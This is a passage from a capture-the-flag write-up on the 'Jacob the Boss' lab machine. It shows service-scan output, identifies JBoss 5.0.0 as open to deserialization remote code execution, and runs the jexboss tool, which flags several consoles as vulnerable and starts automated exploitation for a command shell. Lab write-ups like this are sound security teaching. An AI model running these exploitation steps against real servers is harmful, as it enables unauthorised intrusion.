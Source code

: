 ~~~
|_http-title: Welcome to JBoss&trade;
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
8083/tcp open  http        JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
~~~

## port 80

I started with port 80. A Dotclear blog is running on this port. We can go back to it if we don't find any other vulnerability.

## JBoss (port 8080)

A JBoss server is running on this port. If you click on "JBoss Web Console" , You can see the version which is 5.0.0. I searched for the exploits and realized that this version has several deserialization flaws and it is vulnerable to RCE (Remote Code Execution).

### Exploit

I found a tool that automates the discovery of vulnerabilities against JBOSS: https://github.com/joaomatosf/jexboss

Download and install the tool and run it:

~~~
┌──(user㉿Y0B01)-[~/…/thm/Jacob_the_Boss/files/jexboss]
└─$ python jexboss.py -host http://jacobtheboss.box:8080

 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |  * And others Java Deserialization Vulnerabilities * | 
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#

 @version: 1.2.4

 * Checking for updates in: http://joaomatosf.com/rnp/releases.txt **


 ** Checking Host: http://jacobtheboss.box:8080 **

 [*] Checking admin-console:                  [ OK ]
 [*] Checking Struts2:                        [ OK ]
 [*] Checking Servlet Deserialization:        [ OK ]
 [*] Checking Application Deserialization:    [ OK ]
 [*] Checking Jenkins:                        [ OK ]
 [*] Checking web-console:                    [ VULNERABLE ]
 [*] Checking jmx-console:                    [ VULNERABLE ]
 [*] Checking JMXInvokerServlet:              [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "web-console" ?
   If successful, this operation will provide a simple command shell to execute 
   commands on the server..
   Continue only if you have permission!
   yes/NO? yes

 * Sending exploit code to http://jacobtheboss.box:8080. Please wait...
~~~